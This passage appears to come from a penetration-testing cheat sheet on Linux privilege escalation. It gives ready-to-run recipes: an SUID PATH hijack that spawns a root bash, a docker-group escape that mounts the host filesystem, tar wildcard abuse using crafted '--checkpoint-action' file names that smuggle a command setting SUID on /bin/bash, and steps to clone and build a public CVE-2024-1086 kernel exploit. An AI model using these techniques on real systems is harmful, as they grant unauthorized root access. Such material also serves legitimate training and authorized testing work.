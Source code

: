 - #### PATH Variable :

>[!quote]
>Having an executable made by root and have an SUID on with a command that runs system commands (such as system).

Our exe.c content : 

```c
#include <unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("ps");
}
```

```bash
# Creating our PE file.
cd /tmp
echo '/bin/bash' > ps # File name needs to be the same that is being executed.
export PATH=/tmp:$PATH

# Now we need to run the exe file and BINGO, we root!
```

- #### Docker :

```bash
# If user is in docker group, the command will result in a priv esc.
docker ps -a # Find all existing images.
docker run -v /:/mnt --rm -it [image_name] chroot /mnt sh 
```

- #### Tar Wildcard Abuse :

```bash
# Example of the tar command : 
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz * # Job being executed every minute.


printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"  
echo "" >> --checkpoint=1
```

- #### CVE-2024-1086 (Kernel Exploit) :

```bash
# Linux Kernel Exploit Affecting between v5.14 and v6.6.
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```
# Bruteforce & Fuzz
